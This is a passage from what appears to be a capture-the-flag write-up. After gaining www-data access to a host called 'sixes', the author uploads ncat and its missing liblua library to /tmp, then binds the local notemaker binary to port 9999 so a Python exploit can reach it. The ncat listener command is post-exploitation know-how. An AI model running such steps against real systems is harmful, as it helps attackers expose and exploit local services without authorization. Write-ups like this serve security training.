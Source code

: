 Since we still are a low privileged user, probably the only destination we can write to is /tmp/. But that's sufficient. 

If we check ncat with ldd after upload, we notice that library `liblua5.3.so.0` is missing
~~~
www-data@sixes:/tmp$ ldd ncat
ldd ncat
	linux-vdso.so.1 (0x00007ffcce323000)
	libssl.so.1.1 => /usr/lib/x86_64-linux-gnu/libssl.so.1.1 (0x00007fd0fd3c9000)
	libcrypto.so.1.1 => /usr/lib/x86_64-linux-gnu/libcrypto.so.1.1 (0x00007fd0fcefe000)
	liblua5.3.so.0 => not found
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fd0fcb0d000)
	libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00007fd0fc8ee000)
	libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00007fd0fc6ea000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fd0fd656000)
  ~~~

So we also have to upload it. 
![](attachments/Clipboard_22.png)

Having that prepared, we can "remote enable" notemaker via ncat on port 9999 (which is also what our python exploit script will connect to).
~~~
www-data@sixes:/tmp$ LD_LIBRARY_PATH=. ./ncat -l 9999 --exec /sbin/notemaker
~~~
The `LD_LIBRARY_PATH=.` is required that ncat can find the `liblua5.3.so.0` library in the /tmp/ directory.

![](attachments/Clipboard_23.png)
